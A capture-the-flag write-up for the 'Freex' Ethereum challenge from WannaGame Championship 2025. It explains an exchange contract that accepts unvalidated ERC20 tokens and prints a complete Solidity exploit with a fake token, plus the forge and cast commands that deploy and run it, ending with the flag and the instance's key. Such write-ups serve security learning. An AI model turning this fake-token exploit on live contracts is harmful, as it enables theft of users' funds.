







# WannaGame Championship 2025 - Freex Write-up



### Step 1: Initial Analysis and Vulnerability Identification

First, we connect to the challenge spawner via `netcat` to receive our unique instance details, including an RPC endpoint, a private key, and the address of the main `Setup` contract.

```bash
nc challenge.cnsc.com.vn 32114
action? 1
```

The server provides us with our unique credentials for this session.



The provided source code reveals several contracts, with `Setup.sol` and `Exchange.sol` being the most critical.
*   **`Setup.sol`**: Deploys the `Exchange` and token contracts. Its `isSolved()` function checks if our player address holds more than 10 `oneEth` tokens.
*   **`Exchange.sol`**: This is our target. It handles deposits, withdrawals, and token swaps.

The core vulnerability is found within the `deposit()` and `exchangeToken()` functions of `Exchange.sol`:
```solidity
function deposit(IERC20 asset, uint64 amount) public {
    // ... logic to increase asset balance for user
}

function exchangeToken(address sender, address asset, uint64 amount) public {
    // ... logic to decrease asset balance and increase receivedWannaETH
}
```

The contract allows a user to `deposit` **any** token that conforms to the `IERC20` interface. Subsequently, the `exchangeToken` function does not validate the `asset` address. It blindly trusts the user-provided token, decreases its balance, and increments the user's `receivedWannaETH` counter. This counter can then be redeemed for real `oneEth` tokens.

### Step 2: Crafting the Exploit Contract (`Exploit.sol`)

The strategy is to create our own "fake" ERC20 token, deposit it into the exchange, and swap it to illegitimately increase our `receivedWannaETH` balance.

Our `Exploit.sol` contract is designed to perform this entire sequence in a single `attack()` transaction.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

interface ISetup {
    function register() external;
    function exchange() external view returns (address);
    function isSolved() external view returns (bool);
}

interface IExchange {
    function deposit(address asset, uint64 amount) external;
    function exchangeToken(address sender, address asset, uint64 amount) external;
    function claimReceivedWannaETH() external;
}

contract FakeToken {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;
    uint256 public totalSupply;

    constructor(uint256 _supply) {
        totalSupply = _supply;
        balanceOf[msg.sender] = _supply;
    }

    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool) {
        allowance[sender][msg.sender] -= amount;
        balanceOf[sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }
}

contract Exploit {
    ISetup setup;
    IExchange exchange;
    FakeToken fakeToken;

    constructor(address _setup) {
        setup = ISetup(_setup);
        exchange = IExchange(setup.exchange());
    }

    function attack() external {
        setup.register();
        // We need > 10 ETH, so we'll mint 15 fake tokens
        uint64 amount = 15 * 10 ** 18;
        fakeToken = new FakeToken(amount);
        fakeToken.approve(address(exchange), amount);
        exchange.deposit(address(fakeToken), amount);
        exchange.exchangeToken(address(this), address(fakeToken), amount);
        exchange.claimReceivedWannaETH();
    }
}
```

### Step 3: Setting Up the Environment and Deployment

We begin by setting our shell environment variables with the credentials provided by the server. Note that the `rpc endpoint` from the server (`127.0.0.1`) must be replaced with the public-facing domain and port.

```bash
export RPC_URL="http://challenge.cnsc.com.vn:31962/746bb4f2-4701-49db-a294-03d32008869b"
export PRIV_KEY="ae2f5caee7f8f01d8ef4da56bd164bb373d319fde73617b535b093a0937d61b5"
export SETUP_ADDR="0x28B5a2564468E57aF242B73dF395ed321a43a736"
```



To ensure `forge` finds our source file in the current directory, we create a `foundry.toml` configuration file. Then, we use `forge inspect` to get the contract's creation bytecode.

```bash
echo '[profile.default]
src = "."
out = "out"
libs = ["lib"]' > foundry.toml
```
```bash
BYTECODE=$(forge inspect Exploit.sol:Exploit bytecode)
```



With the bytecode, we proceed with a manual deployment using `cast`. We encode the constructor arguments and concatenate them with the bytecode to form the complete transaction data.


```bash
# Get the bytecode
BYTECODE=$(forge inspect Exploit.sol:Exploit bytecode)

# Encode constructor arguments
ARGS=$(cast abi-encode "constructor(address)" $SETUP_ADDR)

# Concatenate for deployment
DEPLOY_DATA="${BYTECODE}${ARGS:2}"

# Send the transaction
cast send --legacy --rpc-url $RPC_URL --private-key $PRIV_KEY --create $DEPLOY_DATA
```

The command returns a successful transaction receipt, providing us with the address of our newly deployed `Exploit` contract.



### Step 4: Executing the Exploit and Capturing the Flag

With our contract on the blockchain, the final step is to call the `attack()` function.

1.  **Execute the Attack:** We save the deployed contract's address and use `cast send` to call the `attack` function.

    ```bash
    export EXPL_ADDR=0x6A017271535ce7A243559E8677C95e9e9688aDeD
    cast send $EXPL_ADDR "attack()" \
      --rpc-url $RPC_URL \
      --private-key $PRIV_KEY \
      --legacy
    ```
    The transaction is successful, confirming that the entire exploit chain has been executed.



2.  **Get the Flag:** We return to our `netcat` session, select option `3`, provide our `uuid`, and the server confirms the solution and provides the flag.



### Flag
`W1{hEre_f0r_you-The-Fre3Ex_Ch@IL3NG3-FlAG26f4}`